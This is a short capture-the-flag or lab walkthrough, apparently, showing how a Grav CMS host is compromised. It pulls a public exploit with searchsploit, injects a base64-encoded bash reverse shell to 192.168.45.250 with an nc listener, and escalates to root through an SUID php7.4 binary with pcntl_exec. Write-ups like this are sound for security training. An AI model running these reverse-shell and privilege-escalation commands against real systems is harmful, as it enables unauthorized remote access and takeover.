






We can search for exploits:
```
searchsploit grav
```

Using this exploit:
```
searchsploit -m php/webapps/49973.py
```
```
subl 49973.py
```
Replaced the following values:

The base64 replaced with:
```
echo -ne "bash -i >& /dev/tcp/192.168.45.250/80 0>&1" | base64 -w0
```
Then start a listener on port 80:
```
sudo rlwrap nc -nlvp 80
```
We get a shell;
```
python3 49973.py
```


Running linpeas.sh:

We found an SUID binary.

Running this to get root:
```
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```
